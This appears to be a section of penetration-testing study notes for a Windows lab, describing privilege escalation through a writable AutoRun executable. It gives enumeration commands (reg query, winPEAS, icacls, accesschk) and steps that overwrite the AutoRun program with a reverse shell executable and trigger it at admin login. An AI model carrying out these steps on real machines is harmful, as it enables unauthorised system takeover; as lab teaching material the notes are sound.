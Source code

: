 





## X) AutoRuns
```bat
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
### Privilege Escalation
1) Use winPEAS to check for writable AutoRun executables:
	1) `.\winPEASany.exe quiet applicationsinfo`
	2) Or use `AutoRuns64.exe`
2) Alternatively, we could manually enumerate the AutoRun executables:
	1) `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
		1) and then use `accesschk.exe`or `icacls` to verify the permissions on each one:
			1) `icacls "C:\Program Files\Autorun Program\program.exe"`
			2) `.\accesschk.exe -accepteula -wvu "C:\Program Files\Autorun Programs\program.exe`
3) The `C:\Program Files\Autorun Program\program.exe` AutoRun executable is writable by `Everyone`. Create a backup of the original:
	1) `copy "C:\Program Files\Autorun Program\program.exe" C:\Temp`
4) Copy our reverse shell executable to overwrite the AutoRun executable:
	2) `copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe"`
5) Start a listener, and then restart the Windows VM to trigger the exploit. **Note that on Windows 10, the exploit appears to run with the privileges of the last logged on user, so log out of the `user` account and log in as the `admin` account first.**
